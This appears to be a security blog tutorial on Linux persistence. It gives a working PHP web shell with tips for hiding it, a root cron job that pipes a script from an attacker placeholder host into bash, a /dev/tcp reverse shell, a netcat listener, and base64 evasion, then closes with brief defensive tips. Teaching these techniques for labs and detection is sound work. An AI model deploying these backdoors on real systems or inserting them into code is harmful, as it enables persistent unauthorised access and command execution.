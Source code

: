 ```yaml
---
title : "Linux Backdoors"
date : 2025-06-25 
layout : post
categories : [BACKDOOR]
tags : [PHP,CRONJOB,BACKDOOR]
author : jana
---
```


# PHP and Cron Job Backdoors: Gaining Persistent Access Like a Pro

In this post, we’ll dive into two powerful techniques attackers use to maintain access to a compromised Linux server: **PHP backdoors** and **cron job backdoors**. These methods are often used in **post-exploitation** scenarios to establish **persistence**. Let's break them down clearly, like a mentor would.

---

## 🔍 What Is a Backdoor?

A **backdoor** is a hidden way to regain access to a system after the initial exploit. Once an attacker gains access (especially root access), they may leave a small script or schedule a task to reconnect to them — so even if you reboot the server or patch the vulnerability, they can come back in.

---

## 🐘 PHP Backdoors

A **PHP backdoor** is a small PHP script that allows an attacker to execute system commands via a web browser.

### ✅ Example Code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

## 🔧 How It Works:

- This script checks for a cmd parameter in the request.

- It uses **shell_exec()** to run any system command sent via the browser.

- Output is displayed in **<pre>** tags for readability.

## 🌐 Usage:

- If the file is saved as shell.php in  `/var/www/html` , an attacker can do:

```bash
http://<target-ip>/shell.php?cmd=whoami
```
## Other useful examples:

- `ls` – list files

- `cat /etc/passwd` – read sensitive files

- `nc` – establish reverse shells

## 🕵️ How Attackers Hide It:

- Inject the backdoor into an existing file like index.php.

- Change cmd to a less suspicious name (e.g., x1 or auth_key).

- Store the file in an obscure folder (e.g., /var/www/html/img/).

## ⏰ Cron Job Backdoors

- A cron job is a scheduled task. Attackers can schedule a reverse shell to run every minute, ensuring they maintain access.

## ✅ Example Cron Entry:

```
* * * * * root curl http://<attacker-ip>:8080/shell | bash
```
### This does the following:

Runs every minute (* * * * *)

As the root user

Downloads a script from the attacker's server using curl

Pipes it into bash for execution

## 🔥 Shell Script Example:

- On the attacker’s server (hosted at port 8080), the shell file contains:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1
```
## 🛠️ Setup:

Host the shell:

```bash
python3 -m http.server 8080
```

- Start listening for a connection:

```bash
nc -nvlp <port>
```
- Wait for the cron to trigger.

## ⚠️ Why It's Risky:

- Visible in /etc/crontab

- Easily detected by sysadmins

- Logs may show repeated traffic to external IPs

## 🕶️ Making It Sneakier

Attackers may:

- Use user-level crontabs via `crontab -e` instead of global `/etc/crontab`

- Base64-encode the reverse shell to avoid detection:

```bash
echo "<encoded_script>" | base64 -d | bash
```

- Name scripts something innocuous like  `/update-check` or `/sys-patch`

## 🧠 Final Thoughts
- Both PHP and cron job backdoors are powerful tools in an attacker's toolkit. As an ethical hacker or security professional, understanding how these work is essential — both for offensive use (in labs/CTFs) and for detecting/removing them during incident response.

## 🛡️ Tips for Defense:

- Monitor for unexpected PHP files or parameters in web root.

- Regularly audit /etc/crontab and user crontabs.

- Monitor outbound connections from critical servers.

- Use tools like auditd, chkrootkit, or rkhunter.

### ⚠️ Disclaimer: This post is for educational and ethical hacking purposes only. Always have permission before testing any technique on a live system.
